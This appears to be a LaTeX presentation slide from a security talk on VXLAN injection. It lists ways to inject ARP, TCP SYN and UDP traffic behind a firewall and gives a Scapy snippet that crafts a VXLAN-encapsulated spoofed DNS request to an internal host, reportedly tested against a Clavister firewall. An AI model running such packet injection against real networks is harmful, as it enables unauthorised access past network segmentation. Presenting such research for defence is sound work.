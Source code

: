 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
What is possible:
\begin{list2}
\item Inject ARP traffic, send arbitrary ARP packets to hosts, connectivity DoS
\item Inject TCP like SYN traffic behind the firewall, ex web servers behind load balancer
\item Inject UDP packets sourced from inside, even being sent out through firewall
\end{list2}







{\small Attacker can send UDP DNS request to inside server on RFC1918 destination - server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}
\end{document}
